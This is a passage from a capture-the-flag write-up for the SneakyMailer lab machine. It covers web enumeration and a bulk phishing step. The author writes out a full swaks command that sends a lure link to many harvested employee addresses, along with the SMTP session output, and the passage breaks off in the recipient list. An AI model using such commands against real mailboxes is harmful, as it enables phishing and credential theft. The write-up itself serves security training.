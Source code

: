 ![image-20200712112129070](https://0xdfimages.gitlab.io/img/image-20200712112129070.png)

### website - TCP 8080

Visiting TCP 8080 returns the default NGINX page:

![image-20200713064046492](https://0xdfimages.gitlab.io/img/image-20200713064046492.png)

I tried visiting by hostnames, and brute forcing directories, but didn’t find
anything. I’ll have to come back to this later when I have more information.

## Shell as www-data

### Phish Creds

Given the theme of this box, it makes sense to use the list of emails to send
a phish. I used `swaks` just like in [Endgame: Xen](/2020/06/17/endgame-
xen.html#phishing-for-creds). I can include a list of recipients with the
`--to` options, comma separated:

    
    
    root@kali# swaks --to $(cat emails | tr '\n' ',' | less) --from test@sneakymailer.htb --header "Subject: test" --body "please click here http://10.10.14.42/" --server 10.10.10.197
    === Trying 10.10.10.197:25...                 
    === Connected to 10.10.10.197.           
    <-  220 debian ESMTP Postfix (Debian/GNU)    
     -> EHLO kali                                  
    <-  250-debian                                   
    <-  250-PIPELINING                            
    <-  250-SIZE 10240000                            
    <-  250-VRFY                                
    <-  250-ETRN                               
    <-  250-STARTTLS                          
    <-  250-ENHANCEDSTATUSCODES               
    <-  250-8BITMIME                              
    <-  250-DSN                                 
    <-  250-SMTPUTF8                                  
    <-  250 CHUNKING                            
     -> MAIL FROM:<test@sneakymailer.htb>       
    <-  250 2.1.0 Ok                            
     -> RCPT TO:<tigernixon@sneakymailer.htb>
    <-  250 2.1.5 Ok
     -> RCPT TO:<garrettwinters@sneakymailer.htb>
    <-  250 2.1.5 Ok
     -> RCPT TO:<ashtoncox@sneakymailer.htb>
    <-  250 2.1.5 Ok
    ...[snip]...
     -> RCPT TO:<donnasnider@sneakymailer.htb>
    <-  250 2.1.5 Ok
     -> DATA
    <-  354 End data with <CR><LF>.<CR><LF>
     -> Date: Sun, 12 Jul 2020 10:55:55 -0400
     -> To: tigernixon@sneakymailer.htb,garrettwinters@sneakymailer.htb,ashtoncox@sneakymailer.htb,cedrickelly@sneakymailer.htb,airisatou@sneakymailer.htb,briellewilliamson@sneakymailer.htb,herrodchandler@sneakymailer.htb,rhonadavidson@sne
    akymailer.htb,colleenhurst@sneakymailer.htb,sonyafrost@sneakymailer.htb,jenagaines@sneakymailer.htb,quinnflynn@sneakymailer.htb,chardemarshall@sneakymailer.htb,haleykennedy@sneakymailer.htb,tatyanafitzpatrick@sneakymailer.htb,michaelsi
    lva@sneakymailer.htb,paulbyrd@sneakymailer.htb,glorialittle@sneakymailer.htb,bradleygreer@sneakymailer.htb,dairios@sneakymailer.htb,jenettecaldwell@sneakymailer.htb,yuriberry@sneakymailer.htb,caesarvance@sneakymailer.htb,doriswilder@sn